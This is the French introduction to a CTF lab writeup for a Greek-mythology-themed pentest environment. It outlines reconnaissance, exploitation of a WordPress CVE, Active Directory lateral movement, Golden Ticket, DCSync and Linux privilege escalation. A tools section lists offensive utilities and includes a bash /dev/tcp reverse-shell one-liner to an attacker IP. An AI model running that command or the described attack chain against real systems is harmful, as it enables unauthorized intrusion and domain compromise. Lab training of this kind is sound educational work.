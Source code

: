 # Introduction au Writeup

!!! danger "⚠️ Avertissement - Copier n'est pas apprendre"
    **Ce writeup est fourni à des fins éducatives uniquement !**
    
    🎯 **Recommandation forte** : Essayez d'abord de résoudre le lab par vous-même avant de consulter cette solution.
    
    📚 **Pourquoi ?** 
    - Les **vraies compétences** se développent en cherchant, en échouant, et en recommençant
    - Copier-coller ne vous apprendra **rien de durable**
    - La **satisfaction** de résoudre un défi par soi-même est incomparable
    - En cybersécurité, **l'adaptabilité** est plus importante que la mémorisation
    
    🏆 **Rappelez-vous** : Il n'y a aucune récompense à la fin de ce lab, si ce n'est les **compétences et connaissances** que vous aurez acquises. Autant que ce soit par votre propre effort !
    
    💡 **Utilisez ce writeup comme** :
    - Une **validation** de votre approche après avoir trouvé
    - Une **aide** quand vous êtes vraiment bloqué (eviter cette page car elle résumer beaucoup de choses simultanément.)
    - Une **source d'apprentissage** pour comprendre les techniques

## 🎯 Objectif du Lab

Ce writeup détaille la résolution complète du lab PantheonLab, un environnement de pentest inspiré de la mythologie grecque. L'objectif est de démontrer une méthodologie complète d'audit de sécurité, de l'énumération initiale jusqu'à l'obtention des privilèges administrateur sur toutes les machines.

## 🏛️ Contexte du Scénario

Dans l'univers de PantheonLab, les dieux de l'Olympe ont décidé de mettre en place des jeux afin de permettre à un mortel de se hisser au-dessus des autres et de les rejoindre au Panthéon. Cependant, un dieu, Hermès, s'agace dans l'ombre de n'être que le messager. Il a introduit des vulnérabilités pour s'approcher discrètement des dieux — des vulnérabilités que vous devrez identifier et exploiter, vous devrez ensuite vous débrouiller afin de compromettre entièrement cet environnement.

### Machines Cibles

| Machine | IP | Rôle |
|---------|----|------|
| **Olympe** | 192.168.56.10 | Serveur Linux/WordPress |
| **DC01** | 192.168.56.11 | Contrôleur de domaine  |
| **Enfers** | 192.168.56.12 | Serveur membre |

## 🔍 Méthodologie d'Attaque

### Phase 1 : Reconnaissance
- **Énumération réseau** : Découverte des machines et services
- **Énumération web** : Analyse du site WordPress
- **Recherche de vulnérabilités** : Identification des vecteurs d'attaque

### Phase 2 : Exploitation Initiale
- **Exploitation WordPress** : Exploitation de CVE
- **Obtenir un shell** : Accès initial sur Olympe
- **Élévation de privilèges** : Accès à utilisateur hermes

### Phase 3 : Lateral Movement
- **Énumération Active Directory** : Découverte du domaine
- **Exploitation des credentials** : Utilisation des comptes trouvés
- **Accès aux machines Windows** : Pivot vers DC01 

### Phase 4 : Compromision du domaine
- **Escalade de privilèges** : Obtenir l'accès administrateur
- **Accès aux machines Windows** : Pivot vers ENFERS 
- **Golden Ticket** : Contrôle total du domaine
- **DCSync** : Extraction des hashes du domaine

### Phase 5 : Escalade de privilège linux
- **Password Reused** : Connexion en tant que hera sur la machine linux
- **Exploitation** : Insecure cron jobs
- **Escalade de privilèges** : Obtenir l'accès root

## 🛠️ Outils Utilisés

### Énumération
```bash
# Réseau
nmap 
netexec||nxc

# Web
wpscan 
gobuster

# Active Directory
netexec||nxc
rusthound
bloodhound
```

### Exploitation
```bash
# WordPress
CVE-2025-32118.py

# Reverse Shell
bash -c 'bash -i >& /dev/tcp/192.168.56.1/9001 0>&1'

# Active Directory
mimikatz.exe
rubeus.exe
SharpSuccessor.exe
GMSAPasswordReader.exe
```

## 📊 Progression Attendue

### Niveau 1 : Accès Initial
- [x] Énumération du réseau
- [x] Découverte du site WordPress
- [x] Identification de la vulnérabilité CMP Coming Soon
- [x] Exploitation et obtention d'un shell

### Niveau 2 : Élévation de Privilèges
- [x] Accès utilisateur hermes
- [x] Découverte des credentials SMB
- [x] Accès au domaine Active Directory

### Niveau 3 : Lateral Movement
- [x] Énumération complète du domaine
- [x] Découverte des utilisateurs et groupes
- [x] Exploitation des vulnérabilités Kerberos

### Niveau 4 : Contrôle Total
- [x] Escalade vers administrateur
- [x] Création de Golden Ticket
- [x] DCSync du domaine
- [x] Privesc Linux


## ⚠️ Avertissements Importants

!!! warning "Environnement Contrôlé"
    Ce lab est conçu pour l'apprentissage dans un environnement isolé. Ne jamais tester ces techniques sur des systèmes de production sans autorisation.

!!! info "Légalité"
    L'utilisation de ces techniques doit toujours respecter les lois locales et les autorisations appropriées.

!!! tip "Bonnes Pratiques"
    Documentez chaque étape, prenez des captures d'écran, et comprenez le "pourquoi" derrière chaque technique.

## 🎯 Objectifs d'Apprentissage

### Compétences Techniques
- **Énumération web avancée** : WordPress, plugins, vulnérabilités
- **Exploitation Active Directory** : Kerberos, DCSync, Golden Ticket
- **Lateral movement** : Pivot entre machines
- **Privilege escalation** : Windows et Linux

### Compétences Méthodologiques
- **Approche structurée** : Méthodologie de pentest
- **Documentation** : Writeup professionnel
- **Résolution de problèmes** : Debugging et troubleshooting
- **Pensée critique** : Analyse des vulnérabilités

## 📚 Ressources Complémentaires

### Documentation Technique
- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [HackTricks Active Directory](https://book.hacktricks.xyz/pentesting/pentesting-active-directory)
- [BloodHound Documentation](https://bloodhound.readthedocs.io/)
- [The Hacker Recipes](https://www.thehacker.recipes/)
- [The Hacker Recipes](https://www.thehacker.recipes/)
- [akamai/Badsuccessor](https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory)


---

*Que la sagesse d'Athéna vous guide  !* ⚡🏛️ 
